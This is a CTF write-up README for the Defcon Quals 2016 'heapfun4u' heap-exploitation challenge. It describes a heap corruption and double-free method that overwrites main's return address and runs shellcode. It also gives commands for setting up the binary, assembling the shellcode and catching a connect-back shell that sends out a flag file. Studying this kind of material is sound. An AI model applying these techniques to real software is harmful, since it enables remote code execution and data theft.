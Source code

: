 ## heapfun4u Defcon Quals - 2016

The [heapfun4u](heapfun4u) binary implements a heap allocator. The challenge is in the "baby's first" category
so isn't meant to be extremely challenging, but requires basic exploitation skills. It readily
prints memory addresses, and allocates all heap memory as executable. The challenge is to corrupt the
heap in such away that the main function's return address is overwritten and directs code execution to the
heap, where shellcode will have been written.

There are likely many ways to achieve remote code execution, here's one:
 * Grab the stack address the program nicely gives us
 * Allocate a 0x1000 byte heap block and immediately free it
 * Allocate 4 more heap blocks of size 0x200, these blocks will overlap with the larger memory already freed
 * Free the 4 just allocated blocks
 * Grab the addresses of the memory just allocated and freed, the program readily gives these
 * Using the heap address of the first large block allocated, the program will allow us to write to any memory that is within the first large block. This memory overlaps with the smaller blocks already freed.
 * Based on the internal implementation of the heap allocator, and the memory addresses known, the memory written creates a corrupt heap
 * The 3rd memory allocation is freed for a second time, this action combined with the corrupt data we just wrote confuses the memory free routine into overwriting the main function's return address on the stack to a known address within the heap
 * Finally, the program will allow us to again write to the large block we first allocated, this time writing our shellcode at the address that the main function will return to when it exits
 * Exit the program normally to allow main to return and execute the shellcode

To run the program locally to debug use the following:
```bash
$ socat -d -d TCP-LISTEN:3957,reuseaddr,fork exec:"./heapfun4u"
```

Connect to the locally running instance of heapfun4u with:
```bash
$ nc localhost 3957
```

Once an instance is running attach a debugger using:
```bash
$ sudo gdb --pid `pidof heapfun4u`
```

The shellcode created is found in [execve_shellcode_x64.asm](execve_shellcode_x64.asm). Assemble it using:
```bash
$ nasm -o a.out -f bin execve_shellcode_x64.asm
```

The python program [asm_to_py.py](asm_to_py.py) can convert the assembled shellcode into a python function for easy exploit writing:
```bash
$ python asm_to_py.py a.out
```

The shellcode will connect back. Listen for the connect back with:
```bash
$ nc -l 6969
```

The working python exploit is [heapfun4u_exploit.py](heapfun4u_exploit.py). Create a file in the same directory as the heapfun4u binary called flag. The contents of the file will be sent to the listener.

Run the exploit locally using:
```bash
$ python heapfun4u_exploit.py localhost 3957 localhost 6969
```
